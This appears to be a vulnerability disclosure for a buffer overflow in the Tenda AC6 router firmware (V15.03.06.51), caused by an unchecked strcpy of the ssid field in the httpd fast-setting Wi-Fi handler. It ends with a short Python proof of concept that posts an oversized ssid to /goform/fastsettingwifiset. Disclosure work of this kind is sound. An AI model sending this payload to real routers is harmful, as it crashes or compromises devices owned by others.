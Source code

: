 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/form_fast_setting_wifi_set

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](1.png)

get value from ssid ,and call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/fastsettingwifiset"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'ssid': payload})
``` 
